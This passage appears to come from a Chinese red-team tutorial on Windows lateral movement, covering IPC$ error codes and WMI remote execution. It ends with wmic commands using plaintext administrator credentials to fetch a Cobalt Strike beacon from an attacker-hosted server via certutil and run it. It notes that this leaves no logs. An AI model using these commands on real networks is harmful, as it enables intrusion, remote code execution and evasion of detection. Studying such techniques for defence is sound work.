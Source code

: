 > 常见问题:

```yaml
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
51：网络问题，Windows无法找到网络路径
53：找不到网络路径，可能是IP地址错误. 目标未开机. 目标Lanmanserver服务未启动. 有防火墙等问题
67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
1326：账号密码错误
1792：目标NetLogon服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

> 建立IPC失败的原因:

```plain
（a）目标系统不是NT或以上的操作系统
（b）对方没有打开IPC$共享
（c）对方未开启139. 445端口，或者被防火墙屏蔽
（d）输出命令. 账号密码有错误
```

## [](#WMI%E6%A8%AA%E5%90%91 "WMI横向")WMI横向[](#WMI%E6%A8%AA%E5%90%91)

`WMI`是通过`135`端口进行利用，支持明文用户密码或者`hash`的方式认证，并且该方法不会在目标日志系统留下痕迹。使用wmic远程执行命令，在远程系统中启动`windows management lnstrumentation` 服务（目标服务器需要开放`135`端口，`wmic`会以管理员权限在远程系统中执行命令）。如果目标服务器开启了防火墙，wmic将无法进行连接。`wmic命令没有回显`，需要使用ipc$和type命令来读取信息，若使用wmic执行恶意程序，`将不会留下日志`。

利用前提和注意事项：

1.  目标防火墙已事先允许135. 445端口连入，且本地杀软. EDR未拦截wmic.exe,cmd.exe等执行；
2.  有些域账户只允许在指定的域内机器上才可登录，所以如果发现账密是对的，却会提示 “拒绝访问” ；
3.  出现提示”无效句柄” 之类的错误，可尝试把目标ip换成机器名或者把机器名换成ip，ip或机器名用双引号包起来；
4.  当提示 “RPC服务器不可用”时，有可能是目标防火墙导致135端口不通，或者目标系统没开135端口，要么就是被对方杀软或EDR拦截。

### [](#wmic "wmic")wmic[](#wmic)

#### [](#wmic-1 "wmic")wmic[](#wmic-1)

无需上传第三方软件，利用系统内置程序，执行过程中有单模式执行和交互式执行  
可以只执行命令，`或者反弹shell`  
单命令执行，执行后无结果回显，可以将木马上传到该内网web目录下，然后调用文件下载命令上线cs：

```bash
# 请先提前搭建一个http服务器 如python一句话或phpstudy 放入木马exe文件

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.91.1/beacon.exe c:/beacon.exe"

# 运行文件并上线

shell wmic /node:192.168.91.178 /user:administrator /password:Abcd1234 process call create "c:\windws\system32\cmd.exe c:\beacon.exe"
```
